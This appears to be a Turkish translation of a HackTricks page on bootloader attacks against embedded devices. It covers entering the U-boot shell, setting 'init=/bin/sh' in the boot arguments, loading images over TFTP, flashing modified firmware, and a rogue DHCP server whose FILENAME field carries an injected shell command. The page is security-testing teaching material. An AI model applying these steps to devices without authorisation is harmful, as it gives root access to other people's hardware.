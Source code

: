{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}

Aşağıdaki adımlar, U-boot gibi cihaz başlangıç yapılandırmalarını ve bootloader'ları değiştirmek için önerilmektedir:

1. **Bootloader'ın Yorumlayıcı Shell'ine Erişim**:
- Başlangıç sırasında "0", boşluk veya diğer tanımlanmış "sihirli kodlar"ı basarak bootloader'ın yorumlayıcı shell'ine erişin.

2. **Boot Argümanlarını Değiştirin**:
- Shell komutunun çalıştırılmasına izin vermek için boot argümanlarına '`init=/bin/sh`' eklemek için aşağıdaki komutları çalıştırın:
%%%
#printenv
#setenv bootargs=console=ttyS0,115200 mem=63M root=/dev/mtdblock3 mtdparts=sflash:<partitiionInfo> rootfstype=<fstype> hasEeprom=0 5srst=0 init=/bin/sh
#saveenv
#boot
%%%

3. **TFTP Sunucusu Kurun**:
- Yerel bir ağ üzerinden görüntüleri yüklemek için bir TFTP sunucusu yapılandırın:
%%%
#setenv ipaddr 192.168.2.2 #cihazın yerel IP'si
#setenv serverip 192.168.2.1 #TFTP sunucu IP'si
#saveenv
#reset
#ping 192.168.2.1 #ağ erişimini kontrol et
#tftp ${loadaddr} uImage-3.6.35 #loadaddr, dosyanın yükleneceği adresi ve TFTP sunucusundaki görüntü dosyasının adını alır
%%%

4. **`ubootwrite.py` Kullanımı**:
- Root erişimi kazanmak için U-boot görüntüsünü yazmak ve değiştirilmiş bir firmware yüklemek için `ubootwrite.py` kullanın.

5. **Debug Özelliklerini Kontrol Edin**:
- Ayrıntılı günlükleme, rastgele çekirdek yükleme veya güvenilmeyen kaynaklardan başlatma gibi debug özelliklerinin etkin olup olmadığını doğrulayın.

6. **Dikkatli Donanım Müdahalesi**:
- Cihazın başlatma sırası sırasında bir pini topraklamak ve SPI veya NAND flash yongaları ile etkileşimde bulunurken dikkatli olun, özellikle çekirdek açılmadan önce. Pinleri kısa devre yapmadan önce NAND flash yongasının veri sayfasını kontrol edin.

7. **Sahte DHCP Sunucusu Yapılandırın**:
- PXE başlatma sırasında bir cihazın alması için kötü niyetli parametrelerle sahte bir DHCP sunucusu kurun. Metasploit'in (MSF) DHCP yardımcı sunucusu gibi araçları kullanın. 'FILENAME' parametresini `'a";/bin/sh;#'` gibi komut enjeksiyon komutları ile değiştirerek cihaz başlangıç prosedürleri için giriş doğrulamasını test edin.

**Not**: Cihaz pinleri ile fiziksel etkileşim içeren adımlar (*yıldız ile işaretlenmiş) cihazın zarar görmesini önlemek için son derece dikkatli bir şekilde yaklaşılmalıdır.


## Referanslar
* [https://scriptingxss.gitbook.io/firmware-security-testing-methodology/](https://scriptingxss.gitbook.io/firmware-security-testing-methodology/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
</details>
{% endhint %}
